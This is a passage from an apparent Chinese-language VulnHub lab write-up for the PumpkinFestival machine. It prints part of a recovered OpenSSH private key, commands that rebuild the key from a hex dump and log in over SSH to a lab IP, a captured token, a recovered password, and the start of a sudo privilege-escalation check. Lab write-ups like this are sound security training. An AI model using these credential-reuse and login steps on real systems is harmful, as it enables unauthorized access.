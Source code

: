 ```
wGEcEHBBVdC/ArenxYxqh1ASdCtVxZ/BVtw/0yBTsEoDiH/nH7SnvcUb9xiq1X2mu4mV6f
yQz9MSwPhMCyYroIzL0rn9dqmnpr6KWCxnXP5KJG8eNS7BpbBlcqEpIoT93XXcTHyUsgJo
vH6TtZh87L6IZi8T8PraZaj1rxcNa3RlC+v2i8kynjQrlGTttW9Q2qNw98hekcSrXKijX1
2laYnc9fCJKy7ZEc+BAAABAQCo5Oz5Q0HbcBkziqK70wrlm4WnYxU08I0Iu0sXBcEpF2DA
KEE1RF5Tch3anrWnR9M/BAVvCCRpqezJ6BYOBikFVwEUDlxSPNpNkJRl+qTC/P0Fr/KuRt
f+xWkcXePjYF7Yxrs73nUyWU3Dr9tcDuQYxDptlTIbAmvkIe4zB+Fvfu1LQLhAaHRopThs
lyZOa9zQUoTqbu/dks+HNq0fibh6oxkGxcinxcejD8j0xyqhud2AlS+3TQq9pdIIx/ZwLI
fNqzGS8y4JojKGnys55sdTk3SBhN86ufMzV3ul3Tj9qqymtQHC9m0RofYWQhoilIqzaRYP
kWOuRHebKoCyAAW2AAABAQD1xXH584HshiYfQJxBXKZhSGGrfW82/U8K5Y+T/SZOV3Gx/t
wjXXYLoCWjYyu7HJhHmed0AmsMrvBwyHM4pHW2r4IvfKqxix3Lr3416isu+/PWsFc+QkIk
kjek6POIYJytnzZgrzUAQF+kfh9PxkJnchIm+3YSwZYE8nAZxTSXGgMWSWqFwN9oO/P38L
ullceYhyn5ZV/NvSVi+MlKw3+ChpPZMYvqngdYPkS3Ovx5UOZzPjtRkylWBHZB50gDgfd1
kxB7Rmpjvj8I3HMcXt2fygc6Qr35aMCcAzXNIyF1FIMsWmxDjuU6qv+fkGyx8YkkcbB75b
HnDB6C+kBAl2rzAAABAQDIhTl2TwnR96BJO5KT926OTOm5w6qx4GuMF2B9PStQNdOBG0FG
n2A9z1EmCNHI63N7gGul4MHxYm69YdnQtah/CeOh/eOQ1vgaGNUU1052+480+KHQy2z7kK
MgE/qM4U7i5nfegFem1xE42i4EytRY2ag+gga4wZfe/98woeB8OlKv+pBmNgHAB1orTPLb
Kh7izLlZM6kQ0ASSfDf0RbZpRIIU1ngRXRn94iZvn/8fwV2iCJ5WxqALtZSEJnaVcEqlkG
1j6XrfkeUUrYWlOorxbiyxMGeC19VvePPpXvGKD8tSZ1NTnH3RkkQGKZjohQsd67IS4fup
16k4l9SUtcrJAAAACXJvb3RAa2FsaQE=
-----END OPENSSH PRIVATE KEY-----
```

使用这个 ssh 密钥登录
```bash
xxd -r -p jack >> sshkey

chmod 600 sshkey
ssh jack@192.168.141.130 -i sshkey -p 6880
ls
file token
./token
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Mission-Pumpkin/PumpkinFestival/18.png)

```
PumpkinToken : 8d66ef0055b43d80c34917ec6c75f706
```

尝试提权
```bash
sudo -l
```

密码是之前用 base62 解出的 Ug0t!TrIpyJ

